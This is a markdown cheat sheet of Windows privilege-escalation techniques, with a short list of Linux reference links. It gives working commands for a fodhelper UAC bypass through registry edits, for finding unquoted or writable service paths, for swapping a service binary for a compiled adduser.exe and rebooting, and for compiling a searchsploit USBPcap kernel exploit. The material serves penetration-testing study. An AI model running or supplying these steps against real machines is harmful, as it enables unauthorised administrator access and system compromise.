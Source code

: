 # Privilege Escalation

## Windows

### reference

<https://www.fuzzysecurity.com/tutorials/16.html>

#### lolbas-project.github.io

<https://lolbas-project.github.io/>

#### Sysinterals Suite

<https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite>

### information gathering

```cmd
systeminfo
whoami
net user
net user <username>

```

```powershell
Get-ComputerInfo
```

### UAC bypass

```cmd

Win10 build 1709, 1809 ...
C:\Windows\System32\fodhelper.exe

```cmd
sigcheck.exe -a -m c:\windows\system32\fodhelper.exe

REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /d "cmd.exe" /f
```

### file permission

```powershell
Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like "Running"}
```

#### space in the path & unclosed quotes

```cmd
C:\Program Files\VMware\VMware Tools\VMwareUser.exe

C:\Program.exe
C:\Program Files\VMware\VMware.exe
```

#### full control file replacement

```bash
i686-w64-mingw32-gcc adduser.c -o adduser.exe
```

```cmd
icacls "C:\Program Files\Serviio\bin\ServiioService.exe"

move ServiioService.exe ServiioService.exe.bak
move adduser.exe "C:\Program Files\Serviio\bin\ServiioService.exe"

wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\"

whoami /priv
shutdown /r /t 0
net localgroup administrators
```

### kernel vulnerability

```cmd
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
driverquery /v
USBPcap
cd "C:\Windows\System32\drivers"
type USBPcap.inf
```

```bash
searchsploit USBPcap
USBPcap 1.1.0.0 (WireShark 2.2.5) - Local Privilege Escalation      |       windows/local/41542.c
i686-w64-mingw32-gcc 41542.c -o 41542.exe
```

## Linux

### reference

<https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/>

#### gtfobins.github.io

<https://gtfobins.github.io/>

## Tips

- linpeas
